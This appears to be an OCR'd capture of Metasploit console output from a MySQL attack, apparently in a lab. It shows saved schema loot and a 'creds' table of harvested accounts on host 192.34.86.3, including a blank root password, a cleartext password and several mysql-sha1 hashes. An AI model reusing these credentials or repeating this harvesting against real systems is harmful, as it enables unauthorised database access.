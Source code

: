 ```
====

host         service  type          name                          content     info          path
----         -------  ----          ----                          -------     ----          ----
192.34.86.3  mysql    mysql_schema  192.34.86.3_mysql_schema.txt  text/plain  MySQL Schema  /root/.msf4/loot/20221212034838_default_192.34.86.3_mysql_schema_750926.txt
msf5 > creds
Credentials
===========

host         origin       service           public            private                                    realm  private_type        JtR Format
----         ------       -------           ------            -------                                    -----  ------------        ----------
192.34.86.3  192.34.86.3  3306/tcp (mysql)  root                                                                Blank password      
192.34.86.3  192.34.86.3  3306/tcp (mysql)  root              *A0E23B565BACCE3E70D223915ABF2554B2540144         Nonreplayable hash  mysql,mysql-sha1
192.34.86.3  192.34.86.3  3306/tcp (mysql)  root              twinkle                                           Password            
192.34.86.3  192.34.86.3  3306/tcp (mysql)  debian-sys-maint  *F4E71A0BE028B3688230B992EEAC70BC598FA723         Nonreplayable hash  mysql,mysql-sha1
192.34.86.3  192.34.86.3  3306/tcp (mysql)  filetest          *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B         Nonreplayable hash  mysql,mysql-sha1
192.34.86.3  192.34.86.3  3306/tcp (mysql)  ultra             *94BDCEBE19083CE2A1F959FD02F964C7AF4CFC29         Nonreplayable hash  mysql,mysql-sha1
192.34.86.3  192.34.86.3  3306/tcp (mysql)  guest             *17FD2DDCC01E0E66405FB1BA16F033188D18F646         Nonreplayable hash  mysql,mysql-sha1
192.34.86.3  192.34.86.3  3306/tcp (mysql)  gopher            *027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0         Nonreplayable hash  mysql,mysql-sha1
192.34.86.3  192.34.86.3  3306/tcp (mysql)  backup            *E6DEAD2645D88071D28F004A209691AC60A72AC9         Nonreplayable hash  mysql,mysql-sha1
192.34.86.3  192.34.86.3  3306/tcp (mysql)  sysadmin          *78A1258090DAA81738418E11B73EB494596DFDD3         Nonreplayable hash  mysql,mysql-sha1
```

